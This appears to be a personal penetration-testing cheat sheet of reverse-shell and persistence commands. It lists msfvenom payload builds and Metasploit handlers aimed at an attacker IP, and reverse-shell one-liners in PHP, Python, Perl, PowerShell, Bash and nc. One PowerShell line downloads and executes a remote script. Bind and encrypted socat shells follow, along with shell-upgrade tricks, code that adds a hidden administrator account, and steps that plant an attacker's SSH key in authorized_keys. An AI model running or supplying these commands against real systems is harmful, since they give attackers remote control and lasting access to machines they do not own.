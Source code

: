 # The cheap way

1. Build payload and launch handler according to https://pentest.ws/tools/venom-builder 
> Warning: Use `windows/shell_reverse_tcp`, because `windows/shell/reverse_tcp` is a staged payload.

TCP reverse shell tested
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -e cmd/powershell_base64 NOEXIT -f exe -o test.exe
```

BAT reverse shell tested
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.45.197 LPORT=4446 -o revshell.ps1
```

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD cmd/windows/reverse_powershell; set LHOST 192.168.45.197; set LPORT 4446; run"
```

EXE reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -f exe -o revshell.exe
```

PowerShell reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 NOEXIT -f raw -o revshell.ps1
```
> Important: Do not use the file but instead the powershell command it incorporates within a whole lot of gibberish

Encode payload
```bash
msfvenom --payload $payload LHOST=$hip LPORT=$hport --format psh | msfvenom --payload - --platform win --arch x86 --encoder base64 NOEXIT SYSWOW64
```

# The manual way

[Shell Folder](file:////home/kali/Documents/shells/)

## Determine compatibility
```php
<?php $outarr = array(); exec("whoami;echo ----------BASH;bash --version;echo ----------NC;which nc;echo ----------SOCAT;which socat;echo ----------PYTHON;python --version;echo ----------PHP;php --version;echo ----------PERL;perl --version",$outarr);print_r($outarr); ?>
```
## Universal

PHP (`php -r ''` or `<?php payload ?>)
```php
$sock=fsockopen("$hip",$hport);exec("/bin/sh -i <&3 >&3 2>&3");
```
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$hip/$hport 0>&1'");
```
Python (`python -c ''`)
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$hip",$hport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Perl (`perl -e ''`)
```perl
use Socket;$i="$hip";$p=$hport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
Meterpreter
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=$port --platform windows -a x64 -f exe -o mp.exe
```

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

## Windows

Invoke-PowershellTcp.ps1
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress 192.168.45.197 -Port 4444"
```
Bind
```powershell
ncat.exe -lknv --allow $hip -e "cmd.exe" 4545
```
NC
```powershell
ncat.exe $hip $hport -e "cmd /c (cmd 2>&1)"
```
CMD2PS
```powershell
powershell.exe -nop -NoExit -NonInteractive -EP Bypass -c "\inetpub\wwwroot\Invoke-PowsershellTcp.ps1 -Reverse -IPAddress $hip -Port $hport"
```
PS
```powershell
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('$hip',$hport);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Linux

Bash
```bash
bash -i >& /dev/tcp/$hip/$hport 0>&1
```
NC v1
```bash
nc -e /bin/sh $hip $hport
```
NC v2
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $hip $hport >/tmp/f
```


## Upgrades

Determine compatibility
```bash
whoami;echo ----------BASH;bash --version;echo ----------NC;which nc;echo ----------SOCAT;which socat;echo ----------PYTHON;python --version;echo ----------PHP;php --version;echo ----------PERL;perl --version
```
Perl
```perl
perl -e 'exec "/bin/bash";'
```
Bash
```bash
echo os.system('/bin/bash')
```
Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Socat (https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.182:4445
```

Encrypted Socat
- Create certificate
   ```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt && cat bind_shell.key bind_shell.crt > bind_shell.pem
```
- Open Listener
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
- Connect to it via the target machine
```bash
socat - OPENSSL:$ip:443,verify=0
```

Via tty
1. Background reverse shell with Strg+Z
2. Get information about the shell and set its output to echo
```bash
echo $TERM && stty -a && stty raw -echo
```
3. Open the shell again with `fg` (you won't see it get displayed)
4. Enter `reset` (this should get displayed again as we're now within the reverse shell)
5. Edit reverse shell parameters according to the information gathered in the second step
```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
## Fixes
Check wheter we are in CMD or Powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
Check if `bash` is interactive
```bash
[[ $- == *i* ]] && echo 'Interactive' || echo 'Not interactive'
```
Check if `PS` is interactive
```powershell
[Environment]::GetCommandLineArgs()
```
Get Window Size
```bash
stty size
```
Fix Window Size
```bash
stty rows X cols Y
```
Fix PATH
```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Reload bash
```bash
exec /bin/bash
```


# Create Admin-User

##### Windows
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
(See [[8_crosscompile2windows_guide]])
##### Linux
```bash
sudo adduser --system --shell /bin/bash --no-create-home us3r && echo -e 'Testp4ssw0rd\nTestp4ssw0rd' | sudo passwd us3r && sudo usermod -aG sudo us3r
```

## Setup SSH

(kali)
`ssh-keygen -t rsa -b 4096 -C "$username@$domain" -f ./created_id_rsa`
`python3 -m http.server 8080`

(target)
`curl -L http://$hip:8080/created_id_rsa.pub -o id_rsa.pub`
`cat id_rsa.pub >> .ssh/authorized_keys`
`chmod 600 .ssh/authorized_keys`